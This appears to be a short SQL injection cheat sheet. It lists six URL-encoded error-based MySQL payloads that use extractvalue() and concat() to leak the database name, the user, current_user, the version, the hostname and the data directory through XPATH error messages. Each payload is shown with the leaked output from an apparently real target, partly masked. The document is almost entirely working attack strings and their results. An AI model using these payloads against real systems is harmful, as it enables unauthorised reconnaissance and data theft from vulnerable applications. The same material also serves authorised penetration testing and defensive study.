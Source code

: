 * **Using database() Functions**
1'+AND+1=extractvalue(rand(),concat(0x3a,database()))--+ 
	"sqlMessage":"XPATH syntax error: ':progress28app'"
  

# Using user() Functions
1'+and+1=extractvalue(rand(),concat(0x3a,user()))--+ 
	"sqlMessage":"XPATH syntax error: ':progress28app@172.x.x.28'"

# Using current_user() Functions
1'+AND+1=extractvalue(rand(),concat(0x3a,current_user()))--+
	"sqlMessage":"XPATH syntax error: ':progress28@%'"

# Using version() Functions
1'+and+1=extractvalue(rand(),concat(0x3a,version()))--+ 
	"sqlMessage":"XPATH syntax error: ':5.7.26-log'"

# Using @@hostname Functions
1'+AND+1=extractvalue(rand(),concat(0x3a,@@hostname))--+
	"sqlMessage":"XPATH syntax error: ':ip-xx.x.x.xxx'"

# Using @@datadir Functions
1'+AND+1=extractvalue(rand(),concat(0x3a,@@datadir))--+
	"sqlMessage":"XPATH syntax error: ':/p28dbdata/db/'"
